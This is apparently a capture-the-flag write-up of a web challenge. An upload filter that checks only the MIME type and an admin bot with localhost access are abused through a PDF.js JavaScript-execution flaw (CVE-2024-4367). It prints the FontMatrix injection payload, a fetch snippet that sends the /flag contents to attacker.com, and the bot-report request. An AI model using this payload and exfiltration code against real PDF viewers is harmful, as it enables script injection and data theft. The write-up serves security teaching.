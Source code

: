 🚀 Mysterious File Upload Journey: Breaking PDF.js and Grabbing the Flag

Challenge Information
Name: Navigate a Mysterious File Upload Journey
Challenge URL: http://172.206.89.197:9000/
Bot URL: http://172.206.89.197:9000/report
Attachment: upload.zip
Author: @S0nG0ku

📖 Introduction
This writeup details how we explored a file upload challenge to bypass security filters and extract a flag from a restricted endpoint. Here's how the adventure unfolded:

Register on the platform.
Analyze the upload feature.
Exploit PDF.js to execute arbitrary JavaScript.
Retrieve the flag using the admin bot.

🕵️ Recon and Discovery
1️⃣ Homepage
The homepage presents a login/register feature and a basic upload interface.


2️⃣ Upload Feature
Upon logging in, we access the upload form. The filter applied here is based only on MIME type validation, making it susceptible to tampering.

html
Copy code
<!-- Upload Filter in Source Code -->
if (file.mimeType === 'application/pdf') {
    // Allow upload
}
This weakness invites further exploration, but before rushing into bypasses, we check additional features.

⚙️ Understanding the Bot
Behavior: The admin bot visits local URLs shared through the application, verified using a regex filter.
Access Scope: The bot has privileged access to the /flag endpoint, which is restricted to local IPs only (127.0.0.1).

💡 The Exploit Plan
To retrieve the flag, we'll use the following approach:

Upload a malicious PDF containing JavaScript to access /flag and send its content to our external server.
Send the bot a link to the malicious PDF file hosted on the challenge server.
The bot will execute our JavaScript and exfiltrate the flag to us.
📜 Crafting the Malicious PDF
The platform uses PDF.js for rendering uploaded PDF files. A known vulnerability, CVE-2024-4367, allows arbitrary JavaScript execution through the FontMatrix attribute.

Vulnerability Exploit
The payload injects JavaScript by escaping parentheses in the FontMatrix field:

javascript
Copy code
/FontMatrix [1 2 3 4 5 (0\); fetch('/flag')
    .then(r => r.text())
    .then(f => location='https://attacker.com/?flag=' + encodeURIComponent(f))]
Steps to Create the PDF
Use a PDF generation tool (e.g., PDFEdit or Python libraries like fpdf) to embed the exploit.
Ensure all parentheses are escaped to prevent premature interpretation.
🖥️ Exploiting the Bot
Upload the malicious PDF file.
Grab the file's URL and modify it to point to 127.0.0.1:5000/view/<filename> for local bot access.
Send the URL to the bot via the provided reporting feature.
plaintext
Copy code
POST /report
Content-Type: application/json

{
    "url": "http://127.0.0.1:5000/view/malicious.pdf"
}
Wait for the bot to visit the URL and execute the JavaScript.
🏁 Retrieving the Flag
Once the bot executes the script, it fetches the flag from /flag and sends it to our server:

javascript
Copy code
fetch('/flag')
    .then(response => response.text())
    .then(flag => {
        location = `https://attacker.com/?flag=${encodeURIComponent(flag)}`;
    });
The flag will appear in your server logs, and in this case, it's:

plaintext
Copy code
AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
🎯 Key Takeaways
MIME Type Filters: Always validate files using deeper inspection (e.g., content-based validation).
Bot Exploits: Bots with local access should have strict sandboxing to prevent malicious exploitation.
PDF.js Vulnerabilities: Always use the latest versions of libraries to patch known vulnerabilities.
📚 Resources
PDF.js Documentation
CVE-2024-4367 Details
PDF Injection with JavaScript
File Upload Security Best Practices

🌈 Bonus: Make It Your Own!
You can use this approach in Capture The Flag (CTF) competitions or educational scenarios to practice:

File upload bypass techniques.
Exploiting vulnerable libraries.
Exfiltration using JavaScript payloads.
Disclaimer: This writeup is for educational purposes only. Always ensure you have proper authorization before performing any security testing.